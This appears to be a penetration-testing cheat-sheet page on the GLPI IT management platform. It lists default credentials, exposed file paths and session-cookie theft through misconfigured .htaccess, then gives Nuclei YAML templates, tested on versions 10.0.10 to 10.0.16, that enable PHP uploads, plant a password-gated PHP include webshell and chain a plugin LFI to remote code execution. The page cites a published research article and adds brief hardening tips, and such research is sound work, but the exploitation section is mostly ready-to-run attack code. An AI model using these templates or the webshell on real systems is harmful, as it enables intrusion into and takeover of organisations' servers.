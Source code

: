 # GLPi IT Management

<div class="row row-cols-lg-2"><div>

GLPi is a popular open-source it management platform. It can be used for a variety of use cases going from host management to ticketing.

* [Official website](https://glpi-project.org/) <small>(4.2k ⭐)</small>
* [Github](https://github.com/glpi-project/glpi) <small>(4.2k ⭐)</small>
* MySQL/MariaDB and PHP

GLPi is commonly found in french enterprises even if they have another solutions globally, often for a specific use case.
</div><div>

Default credentials are:

* `glpi:glpi` (Super Admin)
* `post-only:post-only` (Self-Service)
* `tech:tech` (Technician)
* `normal:normal` (Observer)

⚠️ Using this software may be dangerous as each [release](https://github.com/glpi-project/glpi/releases) usually has many patched vulnerabilities <small>(3-7 per release, excluding misconfigurations)</small>.
</div></div>

<hr class="sep-both">

## GLPI — Website Discovery

<div class="row row-cols-lg-2"><div>

#### GLPI Discovery — Forced Browsing

By default, GLPI webserver should be mapped to the `/public/` folder. It's often misconfigured, leading to internal files being web-accessible.

* [ ] `/files/` - critical sensitive files, protected by .htaccess
  * [ ] `/files/_log/` - server and application logs
  * [ ] `/files/_sessions/` - PHP sessions
  * [ ] `/files/_tmp/` or `/files/_uploads/` - uploaded files 
* [ ] `/version/` - directory listing may be enabled
* [ ] `/vendor/` - protected by .htaccess
</div><div>

#### GLPI Discovery — Fingerprint

GLPi version can be found in two places.

* [x] Check for a file such as `/version/10.0.10`
* [x] Check for the version once connected in `About`
</div></div>

<hr class="sep-both">

## GLPI — Website Exploitation

<div class="row row-cols-lg-2"><div>

#### GLPI Exploitation — Weak Credentials

We may get a foothold if default credentials were not changed.

🛡️ Use strong passwords and disable default accounts.

#### GLPI Exploitation — .htaccess failure

By default, `.htaccess` are ignored by Apache unless `AllowOverride` is specified. This can lead to multiple security issues.

* [ ] Navigate to `/files/_session/` and try every cookie
* [ ] Upload a PHP script and run it from `/files/_tmp/`

🛡️ Only expose the `/public/` folder or use `AllowOverride` on Apache.

#### GLPI Exploitation — PHP File Upload

🤖 Tested with GLPI `10.0.10` to `10.0.16`. Access: `[Observer+]`.

<details class="details-n">
<summary>Allow PHP Extension In File Upload</summary>

```yaml!
id: glpi-enable-php-upload

info:
  name: GLPI Enable PHP Upload
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/front/documenttype.form.php"

    headers:
      Content-Type: "multipart/form-data; boundary=----48d91b129fc5f9f6167b0f7da257b91"

    body: "------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\nPHP\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"comment\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"icon\"\r\n\r\nai-dist.png\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"is_uploadable\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"ext\"\r\n\r\nphp\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"mime\"\r\n\r\n\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"add\"\r\n\r\n1\r\n------48d91b129fc5f9f6167b0f7da257b91\r\nContent-Disposition: form-data; name=\"_glpi_csrf_token\"\r\n\r\n{{token}}\r\n------48d91b129fc5f9f6167b0f7da257b91--\r\n"

    extractors:
      - type: status
        status:
          - 302
```
</details>

<details class="details-n">
<summary>Upload PHP File</summary>

```yaml!
id: glpi-upload-php-webshell

info:
  name: GLPI Upload setup.php webshell
  description: |
    Only one uploaded file can be named "setup.php" which can be used along with a specific LFI to get a RCE.
    This code upload some setup.php file that can be used to load another arbitrary.php.
    This makes it easy to exploit a website as we cannot delete nor modify "setup.php".

    With the intended LFI exploit, simply use: 

    {{BaseURL}}/front/plugin.php?passwd=Pwned1234!&target=your_real_webshell.php)
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/ajax/fileupload.php"

    headers:
      X-Glpi-Csrf-Token: "{{token}}"
      Content-Type: "multipart/form-data; boundary=----5caea02864785d478355a5e77c18d034"

    body: "------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"name\"\r\n\r\n_uploader_filename\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"showfilesize\"\r\n\r\n1\r\n------5caea02864785d478355a5e77c18d034\r\nContent-Disposition: form-data; name=\"_uploader_filename[]\"; filename=\"setup.php\"\r\nContent-Type: application/octet-stream\r\n\r\n<?php\r\nif(isset($_GET['passwd'])&&$_GET['passwd']===\"Pwned1234!\"){ini_set('display_errors',1);error_reporting(E_ALL);echo \"Password OK\";if(isset($_GET['target'])){include_once $_GET['target'];}die();}\r\n------5caea02864785d478355a5e77c18d034--\r\n"

    matchers:
      - type: status
        status:
          - 200
```
</details>

🛡️ It seems in recent versions, they banned a few extensions.
</div><div>

#### GLPI Exploitation — LFI To RCE

🤖 Tested with GLPI `10.0.10` to `10.0.16`. Access: `[Super Admin]`.

<details class="details-n">
<summary>Enable Plugin Creation</summary>

```yaml!
id: glpi-enable-plugin-creation

info:
  name: GLPI Enable Plugin Creation
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="
        name: csrf
        internal: true

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/front/profile.form.php"

    headers:
      Content-Type: "application/x-www-form-urlencoded"

    # Default is "3", to enabled plugins, we use "31"
    # (enabled on id=4 which is super-admin)
    body: "_config%5B31_0%5D=1&id=4&update=Save&_glpi_csrf_token={{token}}"

    matchers:
      - type: status
        status:
          - 302
```
</details>

<details class="details-n">
<summary>Create Plugin With Arbitrary PHP File</summary>

```yaml!
id: glpi-lfi-using-plugins

info:
  name: GLPI LFI using Plugins
  author: anonymous
  severity: info

http:
  - method: GET
    path:
      - "{{BaseURL}}/front/profile.form.php"

    matchers:
      - type: status
        status:
          - 200

      - type: word
        part: body
        words:
          - <meta property="glpi:csrf_token" content="

    extractors:
      - type: regex
        internal: true
        part: body
        name: token
        group: 1
        regex:
          - <meta\sproperty="glpi:csrf_token"\scontent="([[:alnum:]]{64})"

  - method: POST
    path:
      - "{{BaseURL}}/ajax/kanban.php?action=add_item&itemtype=Plugin"

    headers:
      X-Glpi-Csrf-Token: "{{token}}"
      Content-Type: "application/x-www-form-urlencoded"

    body: "action=add_item&inputs=directory%3d../files/_tmp%26name%3dpwned%26version%3d1.0.0%26author%3dPwned"

    extractors:
      - type: dsl
        dsl:
          - status_code_2
```
</details>

📚 Original article: [OCD Exploit](https://sensepost.com/blog/2024/from-a-glpi-patch-bypass-to-rce/)
</div></div>